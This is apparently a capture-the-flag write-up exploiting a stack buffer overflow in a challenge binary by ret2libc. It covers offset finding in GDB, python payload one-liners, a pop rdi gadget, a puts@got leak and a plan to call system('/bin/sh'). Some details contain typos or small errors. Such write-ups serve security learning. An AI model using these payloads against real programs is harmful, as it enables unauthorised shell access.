









Ghidra decompiler has been used to get the source code of the program.

Checking the decompiled code, user_info take up to 56 characters, whereas fgets(user_info) can write until 120 characters. Therefore, we can write more characters than the computer has allocated for the variable user_info. This seems to be the vulnerability in this program.
It seems that we need to indicate "scientifique" at the first question so that the program continue
Let's fuzz the program with in GDB to see how the stack looks like before exiting the program.

At the beginning of the stackframe (0x7fffffffe1d0), it stores the variable user_id (AAAABBBBCCCCDDD scientifique) and the buffer size of the variable is 64 characters.
At the address 0x7fffffffe210, the value of user_info is stored. The buffer size of the variable is 56 characters, but fgets(user_info, 120, stdin) allows us to write until 120 characters.
Setting the breakpoint at the instruction RET, to see the return address.

At the instruction ret, it destroys the stackframe and the return address is 0x7fffffffe258. It's in the middle of the 'A' so we can redirect to an address and takes control of the execution of the program.
0x7fffffffe258 - 0x7fffffffe210 = 0x48 = 72 in decimal
So the offset is 72 from the variable
user_info
r < <(python -c "import sys; sys.stdout.buffer.write(b'scientifique' + b'A'*72)")
Looking at the stack, the word “scientifique” takes 12 bytes. Fgets(user_id, 50, stdin) write 50 characters max in the user_id. 50 – 12 = 38.
So we need to add 38 in our offset.
Offset = 72 + 38 = 110
r < <(python -c "import sys; sys.stdout.buffer.write(b'scientifique' + b'A'*110 + b'\xef\xbe\xad\xde')")

We can control the execution of the program. The goal is to open a shell, so we need to find a way to execute system("/bin/sh"). This seems to be a ret2libc exploit.
In x64, the first argument is stored in the register RDI, so we need to find the instruction
pop rdi to overwrite the register RDI.
To exploit ret2libc, we want to print an address of the global offset table. To print something, we can use the function puts().

puts@got = 0x601018
Payload = b’A’ * offset + @poprid + @puts.got + @puts.plt
This is going to equivalent to do puts(puts@got), printing the address of the function puts() in the global offset table.
ROPgadget will helps us to get the address of the instruction pop rid.

Address of pop rdi; rdi : 0x0000000000400763
r < <(python -c "import sys; sys.stdout.buffer.write(b'scientifique' + b'A'*110 + b'\x63\x07\x40\x00\x00\x00\x00\x00' + b’\x18\x10\x60\x00\x00\x00\x00\x00’ + b’\x20\x05\x40\x00\x00\x00\x00\x00’)")
In pwntool, p.recvline() is used to display message from the process. Strip() is a python function used to remove all the space. Ljust(8, b”\x00”) will add 8 times “\x00” on the left, to make a buffer of 8bytes when using u64() from pwntool. Otherwise you will encounter the error
struct.error : unpack requires a buffer of 8 bytes
Leak = u64(p.recvline().strip().ljust(8, b”\x00”))

We've just leaked the address of puts() in the global offset table.
Now to get the libc_base address, we just need to substract leakaddress_puts by libc.sym["puts"].
libc_base = leakaddress_puts - libc.sym["puts"]
The challenge also provide us the libc used by the program.
libc=ELF('./libc-2.27.so')
To get the system, we just need to add libc.sym[‘system’] to the libc base address.
system_libc = baseaddress_libc + libc.sym[‘system’]
binsh = baseaddress_libc + next(libc.search(b”/bin/sh\0xx”))
Once we get this all those address, on the first payload, we need to return to main address. The main address is easily to found, just disassemble the main function and retrieve the address. The main address will create the same stackframe that we can exploit. But this time instead of finding the IP in the libc, we will execute our payload with the address of system and binsh.
Main = p64(0x400647)

